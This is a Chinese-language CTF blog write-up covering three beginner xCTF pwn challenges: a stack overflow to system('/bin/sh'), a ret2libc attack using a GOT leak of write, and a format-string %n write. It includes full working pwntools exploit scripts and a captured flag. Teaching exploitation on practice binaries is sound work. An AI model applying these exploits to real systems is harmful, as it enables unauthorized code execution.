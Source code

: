 ```yaml
---
title: 「xCTF」Pwn - cgpwn2|level3|CGfsb WriteUps
date: 2021-11-12 14:44:51
tags: ['xCtf', 'Pwn', 'WriteUp']
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/ctf_logo_2.png
banner_img: https://novanoir.moe/img/ctf_logo_2.png
---
```

## cgpwn2 | level3 | CGfsb

### **碎碎念**

因为这半个月事情很多（摆邮major/APEX/期中考），加上新环境一直有问题，所以基本上没有什么关于CTF的内容:I但是其他的事情也基本没什么进展

马上又要打比赛了，想着临时抱佛jio冲一哈，先把这几个简单的栈相关的题目搞一下:<

原本想要每题都做一个详尽的WP水文章来着，但是好像比较基础就合在一起了:>

<!--truncate-->

### **cgpwn2**

直接拖进checksec/ida

![https://cdn.novanoir.moe/img/image-20211112104246870.png](https://cdn.novanoir.moe/img/image-20211112104246870.png)

![https://cdn.novanoir.moe/img/image-20211112105108027.png](https://cdn.novanoir.moe/img/image-20211112105108027.png)

![https://cdn.novanoir.moe/img/image-20211112112126099.png](https://cdn.novanoir.moe/img/image-20211112112126099.png)

这题意图就很明显了：在第一个gets中输入指令（"/bin/sh"），第二个gets中溢出然后调用system函数

> system + 返回地址 + 指令

于是找出偏移和地址，轻松写出exp>

```
from pwn import *

context(log_level='debug')

r = process('./53c24fc5522e4a8ea2d9ad0577196b2f')

r.recvuntil('your name\\n')
r.sendline(b'/bin/sh')

cmd_addr = 0x0804A080
system_addr = 0x08048420
payload = b'A'*0x2A + p32(system_addr) + p32(0) + p32(cmd_addr)

r.recvuntil('here:\\n')
r.sendline(payload)
r.interactive()
```

拿到flag`cyberpeace{53e372c0f3209a11ef4429e8e2546bbf}`

### **level3**

看题目介绍应该是ret2libc的题，这是我第一题libc泄露，所以着重讲讲

> 知识点：CTF-WIKI

下载下来是一个gz压缩文件，解压出来是一个so文件和elf文件

（结果我tar解压的时候不知道为什么名字不能自动补全，手搓了32位md5码的文件名了属于是）

按照惯例checksec看一下(checksec也不知道为什么软连接搞不上，我要吐力)

![https://cdn.novanoir.moe/img/image-20211112114145579.png](https://cdn.novanoir.moe/img/image-20211112114145579.png)

![https://cdn.novanoir.moe/img/image-20211112140131570.png](https://cdn.novanoir.moe/img/image-20211112140131570.png)

总之先上EXP:

```
from pwn import *

context(log_level="DEBUG")
# r = process("./level3")
r = remote("111.200.241.244", 53829)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
func = elf.sym["vulnerable_function"]

payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
r.recvuntil("Input:\\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))

write_libc = libc.sym["write"]
system_libc = libc.sym["system"]
bin_sh_libc = next(libc.search(b"/bin/sh"))
print('write_addr: ', hex(write_addr))

libc_base = write_addr - write_libc
system_addr = libc_base + system_libc
bin_sh_addr = libc_base + bin_sh_libc

print('bin_sh_addr: ', hex(bin_sh_addr))
print('system_addr: ', hex(system_addr))

payload2 = b'a'*0x88 + b'aaaa' + p32(system_addr) + p32(0) + p32(bin_sh_addr)
r.recvuntil("Input:\\n")
r.send(payload2)
r.interactive()
```

这里有个很奇怪的点，我写exp的时候用的是Python3.10.0，但是本地调试的时候这个exploit是过不了的，换成py2又可以过

关键是我只更改了`bin_sh_libc`这里的代码，py2用的是`generator.next()`，而py3用的是`next(generator)`，但是结果是一样的。

我把最后的payload打印出来对比也没有任何区别（肉眼上）。但是Py3远程又是能过的^ ^，不知道什么高手情况。

#### **分析**

整个程序非常简单，也只有一个`vulnerable_function`可以利用，但是程序中并没有利用到system函数，这里就自然的引出了GOT表泄露。

得益于libc的延迟绑定机制，我们如果知道libc中某个函数的地址，就可以通过其在程序中的地址与libc中地址的差算出偏移。又由于libc.so动态链接库中的函数之间相对偏移是固定的，得到了偏移，再通过libc中我们想要的函数的地址，就可以确定其函数在程序当中的地址。

```
payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
```

首先看payload1，先填充buf不多说，覆盖返回地址这里值得注意：

我们先将返回地址覆盖为write_plt，再将func作为write函数的返回地址，后面再填write的三个参数，这样做的话在write结束后就又会跳转会`vulnerable_function()`这里，便可以截到write的GOT地址

接下来就是算偏移和找地址，不多赘述。

此时程序又一次运行到了`read()`函数这里，那直接轻松覆盖一个system函数上去就好了:>

### **CGfsb**

![https://cdn.novanoir.moe/img/image-20211112141233440.png](https://cdn.novanoir.moe/img/image-20211112141233440.png)

一眼FormatString

需要使得`0x0804A068`这个地址的变量`pwnme`为8

先找到格式化字符串的参数在第几个

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(b'AAAA' + b'%x.'*0x10)
r.recvuntil("is:\\n")
print(r.recv())
```

![https://cdn.novanoir.moe/img/image-20211112142129570.png](https://cdn.novanoir.moe/img/image-20211112142129570.png)

可以看到41414141在第十个参数的位置，那么我们只需要把pwnme的地址写入，然后通过%n把8写入它就好了

最后的exp:

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(p32(0x0804A068) + b'AAAA' + b'%10$n')
r.interactive()
```

至此，宣告PWN的新手区AK（不容易啊🥵）